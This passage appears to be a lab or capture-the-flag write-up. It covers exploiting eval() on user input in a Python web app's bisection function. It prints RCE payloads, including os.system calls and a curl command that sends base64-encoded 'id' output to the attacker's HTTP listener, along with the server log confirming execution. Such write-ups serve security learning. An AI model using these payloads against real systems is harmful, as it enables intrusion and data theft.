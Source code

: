 ```python
                yc = (c**6) - c - 1 #f(c)
                if yc > 0: #If f(c) is positive then we switch the b variable with c and get the new c variable
                    xb = c
                    c = (int(xa) + int(xb))/2
                elif yc < 0: #If (c) is negative then we switch the a variable instead
                    xa = c 
                    c = (int(xa) + int(xb))/2
        c_format = "{0:.4f}"
        root = float(c_format.format(c))
        return root
```


As  seen, this function uses `eval()`, this allows us to get `RCE`, The code constructs a string `added = xa + " + " + xb` and evaluates it via `c = eval(added)`. An attacker can craft malicious input for `xa` or `xb` to form a valid Python expression that executes arbitrary code.

We can now proceed to exploitation.


# EXPLOITATION
---

Let's try some basic `RCE` using this:

```python
__import__('os').system('id')
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504142444.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504142457.png)

We get an internal server error, this happens due to the payload being evaluated by the server and then converting the non numerical string (`xa`) to an integer, this causes a `ValueError`, which throws us the `500` status code error.

So, how can we achieve the `RCE`? 

We can simply set up a python server and encode the contents of the command we are dealing with using `base64` so we can notice if the server actually executes the command, let's do the following command:

```python
__import__('os').system('curl http://10.11.136.34:8000?pwned=$(id|base64)')
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504142758.png)

We get `500` status code again, but if we check our python server, this happens:

```python
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.170.179 - - [04/May/2025 19:23:30] "GET /?pwned=dWlkPTEwMDAoYnJ1Y2UpIGdpZD0xMDAwKGJydWNlKSBncm91cHM9MTAwMChicnVjZSkK HTTP/1.1" 200 -
```

